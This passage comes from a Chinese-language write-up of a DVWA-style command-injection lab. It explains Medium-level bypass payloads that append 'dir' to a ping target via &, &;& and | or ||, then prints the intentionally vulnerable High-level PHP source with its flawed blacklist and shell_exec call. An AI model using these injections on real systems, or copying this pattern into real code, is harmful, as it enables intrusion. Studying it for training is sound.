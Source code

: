 
#### 解题思路
但是依然可以用&或|或||进行测试，只不过|和||这两个需要前面的命令失败才行。
注入代码：
```
127.0.0.1 & dir
127.0.0.1 &;& dir
111 | dir
111 || dir
这些会变成
ping 127.0.0.1 & dir
ping 127.0.0.1 && dir
ping 111 | dir
ping 111 || dir
```
第一个命令同Low等级一样，&前的命令为真才会返回后面的执行结果。

第二个命令会去掉;，去掉之后正好形成&&，达到命令指向效果。

第三个命令是要使前面为假，即ping不成功，后面的命令才会执行。

第三个命令也是要使前面为假，后面的命令才会执行。



## 0x03 High

#### 源码分析
```php
 <?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?> 
```